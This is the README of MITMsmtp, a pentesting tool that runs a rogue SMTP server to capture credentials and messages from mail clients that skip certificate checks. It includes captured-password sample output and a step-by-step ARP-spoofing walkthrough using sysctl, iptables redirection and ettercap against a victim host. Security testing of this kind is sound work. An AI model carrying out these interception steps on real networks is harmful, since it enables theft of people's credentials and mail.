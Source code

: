 # MITMsmtp
MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login credentials and mails sent over plain or SSL/TLS encrypted connections. The idea is to catch sensitive emails sent by clients which are not correctly verifying the SMTP servers identity in SSL/TLS mode. MITMsmtp will catch username and password as well as the message itself. This way you might gain access to a companies mail server or catch information like password reset tokens or verification links sent by applications. Using those information you might gain more and more access to a system. MITMsmtp has been built to work together with MITM Attacks like ARP Spoofing to terminate encrypted connections.

MITMsmtp offers a command line tool as well as an open Python3 API which can be used to build own tools for automated pentesting of applications.

## Compatibility
MITMsmtp has been tested against the SMTP client of Thunderbird 60.5.3 and some other SMTP clients.

### Connection Security
MITMsmtp supports the following connection security modes:
* Plaintext
* SSL/TLS
* STARTTLS (under development, not yet working)

### Login Methods
MITMsmtp supports the following login methods:
* PLAIN
* LOGIN
* CRAM-MD5 (under development, not yet working)

Challenge-Response bases authentication methods like NTLM or Kerberos can't be supported as these methods require the server to know the cleartext password.

## Setup
MITMsmtp requires Python3 and setuptools. You might want to install git as well. Use the following command on Debian:

`apt install python3 python3-setuptools git`

Now just clone the MITMsmtp repository:

`git clone https://github.com/RobinMeis/MITMsmtp.git`

Change into MITMsmtp directory and start the installation:

`sudo python3 setup.py install`

That's it!

### Updating
`git pull`

`sudo python3 setup.py install`

## Usage
*This section describes the command line usage. For the API reference, please refere to API section.*

Running `MITMsmtp --help` will give you an overview about the available command line switches:
```
usage: MITMsmtp [-h] [--server_address SERVER_ADDRESS] [--port PORT]
                [--SSL SSL] [--certfile CERTFILE] [--keyfile KEYFILE]
                [--log LOG]

MITMsmtp is an Evil SMTP Server for pentesting SMTP clients to catch login
credentials and mails sent over plain or SSL encrypted connections.

optional arguments:
  -h, --help            show this help message and exit
  --server_address SERVER_ADDRESS
                        IP Address to listen on (default: all)
  --port PORT           Port to listen on (default: 8587)
  --SSL SSL             Enables SSL Support (default: False)
  --certfile CERTFILE   Certfificate for SSL Mode
  --keyfile KEYFILE     Key for SSL Mode
  --log LOG             Directory for mails and credentials
```

When running `MITMsmtp` without any parameters it will start an unencrypted SMTP server on port 8587 on all interfaces. Pointing Thunderbird or any other SMTP client will give you the ability to test MITMsmtp. Please keep in mind that the default port MITMsmtp differs from the SMTP default port.

As soon as a client has logged in, you will get the following information:

```
=== Login ===
Username: user@example.com
Password: SuperSecureAndUncrackablePassword
```

After the client has transmitted it's message, you will get basic information about the message:

```
=== Complete Message ===
Username  : user@example.com
Password  : SuperSecureAndUncrackablePassword
Client    : [192.168.178.42]
Sender    : user@example.com
Recipients: recipient-a@example.com
            recipient-b@example.com
```

If you want to get the full message, you have to enable logging.

### Logging
Running `MITMsmtp --log logdir` will enable logging. Please make sure that the directory exists. MITMsmtp will create n+1 files while n is the amount of received messages. Each mail will be written into a new file like it has been received. Additionally all received credentials are stored in `credentials.log`.

### Encryption
Some clients fallback to unencrypted mode if you don't offer SSL/TLS. Always make sure to test this! For clients which don't fallback, you may want to test the encrypted mode. Please keep in mind, that a correctly configured client won't be vulnerable to this attack. You will be unable to fake a trusted certificate for a validated common name and thus the client will stop connection before sending credentials. However some clients don't implement proper certificate validation. This is where this attack starts.

To run MITMsmtp in encrypted mode you need a certificate and the according key. You can use the example in certs/. For some clients you might need to generate own certificates to bypass certain validation steps.

To use MITMsmtp with the example certificates run `MITMsmtp --certfile certs/MITMsmtp.crt --keyfile certs/MITMsmtp.key`.

## MITM
This section shows the usage of MITMsmtp if you are able to intercept the victims traffic.

### ARP Spoofing
ARP Spoofing is one way to get between Victim and Router. In case you have the ability to modify your routers settings, you might skip this step. There are many other ways to perform MITM Attacks like DHCP Race-Conditions or DNS Spoofing. These instructions are just a basic idea how to use MITMsmtp. First of all you need the victims and the routers IP address. Make also sure that your client is connected to the same subnet.

In this example the Routers IP will be *192.168.42.1* and the Victims IP will be *192.168.42.24*. Run the following commands as root.

First of all we are going to enable forwarding mode:

`sysctl -w net.ipv4.ip_forward=1`

To make sure that out victim doesn't find a way around us, block ICMP redirects:

`sysctl -w net.ipv4.conf.all.send_redirects=0`

Next we create a port forwarding rule from SMTP default port 587 to MITMsmtp. Please make sure that your victim uses port 587 and adjust if needed.

`iptables -t nat -A PREROUTING -p tcp --destination-port 587 -j REDIRECT --to-port 8587`

To start ARP Spoofing you will need ettercap. Run the following command and replace the IP addresses according to your setup:

`ettercap -T -M arp /192.168.42.24/ /192.168.42.1/`

Finally you can fire up MITMsmtp:

`MITMsmtp --log log/`

#### Limitations
As we perform a port forward, MITMsmtp can't determine the original packet destination. This means that MITMsmtp can't log the real SMTP server name or IP. If you need these information, just run wireshark while catching mails using MITMsmtp and filter for `tcp.port==587` or `dns`. This way you will be able to get the domain name as well as the original IP.

## Reference
[1] https://tools.ietf.org/html/rfc5321

[2] http://www.samlogic.net/articles/smtp-commands-reference-auth.htm
